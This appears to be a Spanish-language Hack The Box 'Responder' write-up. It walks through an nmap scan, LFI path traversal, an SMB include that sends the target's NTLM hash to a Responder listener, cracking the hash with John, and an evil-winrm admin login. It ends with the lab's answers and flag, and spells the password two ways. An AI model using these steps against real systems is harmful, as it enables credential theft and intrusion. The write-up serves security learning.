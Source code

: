 ```yaml
---
title: HTB - Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: preview1.png
   width: 345
   height: 164
   alt: 
---
```

<h2 style="color:#900C3F">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador web.

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada `unika.htb`. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo `/etc/hosts` para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado `french.html` mediante otro archvio llamado `index.php`.

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro <b style="color:#800000">"page"</b> la siguiente cadena para saber si es vulnerable a <b style="color:#800000">LFI</b> y como consecuencia a <b style="color:#800000">path traversal</b>.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.

<h2 style="color:#900C3F">Ganando Acceso (Admin)</h2>
---
Regresando al escaneo, el puerto `5985` se encuentra abierto lo que quiere decir que <b style="color:#800000">WinRM</b> esta disponible. Podemos aprovecharnos del <b style="color:#800000">LFI</b> de la página web para capturar el <b style="color:#800000">hash NTLM</b> de la máquina con ayuda de la herramienta `responder`.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor <b style="color:#800000">SMB</b> este activado.

![](Pasted image 20220427170523.png)

Mientras `responder` esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor `SMB` y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el <b style="color:#800000">hash NTLM</b>.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta `John The Ripper` .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta `evilwinrm` para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo `flag.txt`. 
> Este se encuentra en la ruta `C:\Users\mike\Desktop`.
{: .prompt-info }

![](Pasted image 20220427172844.png)

<h2 style="color:#9C3D54">Preguntas</h2>
---
1. ¿Cuántos puertos TCP están abiertos en la máquina?

   <b style="color:#800080">3</b>

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?

    <b style="color:#800080">unika.htb</b>

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?

    <b style="color:#800080">php</b>

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?

    <b style="color:#800080">page</b>

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    <b style="color:#800080">../../. ./../../../../../windows/system32/drivers/etc/hosts</b>

6. ¿Qué significa NTLM?

    <b style="color:#800080">New Technology LAN Manager</b>

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?

    <b style="color:#800080">-I</b>

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.

    <b style="color:#800080">John The Ripper</b>

9. ¿Cuál es la contraseña para el usuario administrador?
 
    <b style="color:#800080">batminton</b>

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?

     <b style="color:#800080">5985</b>

**Root Flag:** <b style="color:#FF8B00">ea81b7afddd03efaa0945333ed147fac</b>

![](Pasted image 20220427134218.png)
